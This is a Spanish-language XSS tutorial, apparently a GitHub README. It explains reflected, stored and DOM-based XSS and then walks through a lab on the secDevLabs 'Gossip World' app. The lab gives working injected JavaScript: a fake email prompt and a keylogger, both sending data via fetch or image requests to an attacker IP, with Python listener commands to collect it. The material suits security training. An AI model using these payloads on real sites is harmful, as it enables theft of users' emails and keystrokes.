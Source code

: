 
### Una vulnerabilidad **XSS** (**Cross-Site Scripting**) es un tipo de vulnerabilidad de seguridad informática que permite a un atacante ejecutar código malicioso en la página web de un usuario sin su conocimiento o consentimiento. Esta vulnerabilidad permite al atacante robar información personal, como nombres de usuario, contraseñas y otros datos confidenciales.

### En esencia, un ataque XSS implica la inserción de código malicioso en una página web vulnerable, que luego se ejecuta en el navegador del usuario que accede a dicha página. El código malicioso puede ser cualquier cosa, desde scripts que redirigen al usuario a otra página, hasta secuencias de comandos que registran pulsaciones de teclas o datos de formularios y los envían a un servidor remoto.

### Existen varios tipos de vulnerabilidades XSS, incluyendo las siguientes:

# Reflejado (Reflected):
### Este tipo de XSS se produce cuando los datos proporcionados por el usuario se reflejan en la respuesta HTTP sin ser verificados adecuadamente. Esto permite a un atacante inyectar código malicioso en la respuesta, que luego se ejecuta en el navegador del usuario.

# Almacenado(Stored):
### Este tipo de XSS se produce cuando un atacante es capaz de almacenar código malicioso en una base de datos o en el servidor web que aloja una página web vulnerable. Este código se ejecuta cada vez que se carga la página.

# DOM-Based:
### Este tipo de XSS se produce cuando el código malicioso se ejecuta en el navegador del usuario a través del DOM (Modelo de Objetos del Documento). Esto se produce cuando el código JavaScript en una página web modifica el DOM en una forma que es vulnerable a la inyección de código malicioso.

### Los ataques XSS pueden tener graves consecuencias para las empresas y los usuarios individuales. Por esta razón, es esencial que los desarrolladores web implementen medidas de seguridad adecuadas para prevenir vulnerabilidades XSS. Estas medidas pueden incluir la validación de datos de entrada, la eliminación de código HTML peligroso, y la limitación de los permisos de JavaScript en el navegador del usuario.

### A continuación, se proporciona el proyecto de Github correspondiente al laboratorio que nos estaremos montando para poner en práctica la vulnerabilidad XSS:

# [secDevLabs](https://github.com/globocom/secDevLabs)

### Practicaremos con Gossip World
## El siguiente codigo permite inyectar codigo javascript mas concretamente una ventana promp al usuario la cual le pide su email y nos lo envia por el puerto 80 de nuestra ip

```Javascript
<script>
    var email = prompt("Porfavor , introduce tu correo electronico para visuali>
    if (email == null || email == ""){
        alert("Es Necesario un correo Valido");
    } else {
        fetch("http://172.25.146.67/?email=" + email);
    }
</script>
```
# Escucha normal en puerto 80 para obtener los emails
```Python
sudo python3 -m http.server 80
```


## El siguiente codigo es lo mismo que el anterior pero este se encarga de recuperar todas las teclas presionadas por el usuario dentro de la pagian web en cuestion 
```Javascript
<script>
var k = "";
document.onkeypress = function(e) {
    e = e || window.event;
    k += e.key;
    var i = new Image();
    i.src = 'http://172.25.146.67/' + k;
};
</script>
```

# Podemos Filtrar la Escucha con expresiones regulares por mensaje y redirigir los errores al dev null
```Python
python3 -m http.server 80 2>&1 | grep -oP 'GET /\K[^? ]+'
```
